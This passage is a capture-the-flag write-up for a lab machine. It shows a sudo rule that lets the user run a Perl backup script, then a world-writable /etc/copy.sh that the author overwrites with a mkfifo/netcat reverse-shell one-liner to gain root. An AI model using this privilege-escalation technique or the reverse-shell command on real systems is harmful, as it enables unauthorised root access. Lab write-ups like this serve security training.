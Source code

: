 now after i get the system shell


i can see that i can run only one command using sudo

ww-data@THM-Chal:/etc$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

The content of the file is


www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");



And in the etc path we can see that we have writable permission for this file


www-data@THM-Chal:/etc$ ls -al | grep copy
ls -al | grep copy
-rw-r--rwx   1 root root      80 Feb  5 16:25 copy.sh




i chnaged the content of the file to spwan a root reverse sheel to my locak system, the content i changed to is


www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.174 9999 >/tmp/f


and viola i got a root shell after i started a netcat listener on port 9999




